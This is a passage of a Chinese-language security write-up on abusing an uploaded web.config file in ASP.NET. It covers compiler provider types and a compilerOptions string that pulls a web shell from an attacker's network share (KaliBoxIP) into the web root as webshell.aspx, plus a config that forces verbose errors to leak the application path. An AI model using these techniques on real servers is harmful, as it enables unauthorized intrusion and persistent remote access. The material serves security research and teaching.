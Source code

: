 可以将`compiler`元素的`type`属性设置为以下默认类型之一：

-   C#:\*

```plain
Microsoft.CSharp.CSharpCodeProvider,System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

这使用`csc.exe`命令进行编译。

VB.NET：

```plain
Microsoft.VisualBasic.VBCodeProvider, System, Version=2.0.3600.0, Culture=neutral, PublicKeyToken=b77a5c561934e089
```

使用vbc.exe命令进行编译。

Jscript.NET:

```plain
Microsoft.JScript.JScriptCodeProvider, Microsoft.JScript, Version=7.0.3300.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a
```

这使用`jsc.exe`命令进行编译。

这些命令通常可以在`.NET`文件夹中找到。 对于`.NET v4`，该文件夹将是：

```plain
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\
```

上面`web.config`模板文件中的`compilerOptions`属性的值将作为参数添加到编译器命令中。这里密文可以使用空格字符提供多个参数。

如果没有为编译器命令提供选项，则`compilerOptions`属性的值将被视为要编译的编译器的文件名。

`＃`字符为终止命令，`@`字符加载另一个文件，如[本文](https://docs.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/listed-alphabetically)中所述。

如果我们可以在编译`C＃，VB.NET或Jscript.NET`文件时找到执行命令的方法，那么可以通过编译可能来自远程共享驱动器或以前上传的静态文件的附加文件来轻松利用它。但是在对此进行研究时，我们找不到任何东西。

应该注意的是，如果`ASP.NET`页面存在于上传`web.config`文件的同一文件夹中，则在我们更改编译过程时，它们将使用我在此提供的示例进行工作。因此，如果只有一次上传`web.config`文件并且无法再次重写时，我们应该注意该文件的内容，确保`web.config`有效。

##### 2.1.1 创建Web shell

以下字符串显示了`compilerOptions`属性，该属性可用于在`Web`目录中创建包含一些二进制数据的`Web shell`：

```plain
/resource:"\\KaliBoxIP\Public\webshell.txt" /out:"C:\appdata\wwwroot\myapp\webshell.aspx" #
```

使用上述设置浏览`web.config`文件后，将在请求的路径中创建具有`webshell.aspx`名称的二进制文件。 在此处了解服务器上的应用程序路径非常重要。 当显示`ASP.NET`失败的错误消息时，可以简单地通过错误来显示应用程序的路径。 建议在另一个文件而不是`web.config`文件本身中创建一个错误，但是如果以后可以修改它，这里只是一个`web.config`文件，它只显示一个错误：

```plain
<?xml version="1.0" encoding="UTF-8"?>
<configuration> 
    <system.web>
        <customErrors mode="Off" />
        IDontExist!
    </system.web>
</configuration>
```
